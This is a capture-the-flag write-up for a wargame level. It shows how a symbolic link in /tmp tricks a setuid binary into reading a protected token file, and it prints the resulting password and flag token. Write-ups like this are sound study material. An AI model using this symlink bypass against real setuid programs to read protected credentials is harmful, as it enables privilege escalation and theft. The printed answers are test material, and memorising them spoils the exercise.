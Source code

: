## writeup level08

When we log in as user level08, we have 2 files:
```shell
$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
Again the suid flag, the token flag has permissions only for the flag08 user. Let's try:
```shell
$ ./level08
./level08 [file to read]

$ ./level08 token
You may not access 'token'
```
So we want the binary to read the file, so we create a symbolic link that will enable this:
```shell
$ ln -sfv $PWD/token /tmp/readtoken
`/tmp/readtoken' -> `/home/user/level08/token'

$ ./level08 /tmp/readtoken
quif5eloekouj29ke0vouxean

$ su flag08
Password:
quif5eloekouj29ke0vouxean
Don't forget to launch getflag !

$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
